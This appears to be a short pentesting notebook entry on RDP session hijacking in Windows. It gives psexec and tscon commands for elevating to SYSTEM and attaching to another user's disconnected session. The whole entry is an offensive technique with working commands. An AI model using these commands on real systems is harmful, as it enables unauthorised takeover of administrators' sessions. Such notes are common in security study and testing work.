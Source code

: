 ```yaml
---
category: Uncategorized
tags: []
---
```

#psexec #tscon
# RDP Session Hijacking
- If an administrator uses RDP to log in to a machine and Instead of logging off the session, closes the RDP session, the session remains open on the server indefinately.
- If we have Administrative rights on a machine, we can reopen the session.
- Only works on Windows Server 2016
- We need to elevate from `Administrator` to `SYSTEM`.
```powershell
# First elevate to SYSTEM
psexec64.exe -s cmd.exe

# List the current rdp sessions
query user
# A Session with "Disc" state means that is left open by someone and currently not being used.

# Connect to active session using tscon
# tscon <id_to_connect_to> /dest:<current_session_name>
tscon 2 /dest:rdp-tcp#6
```
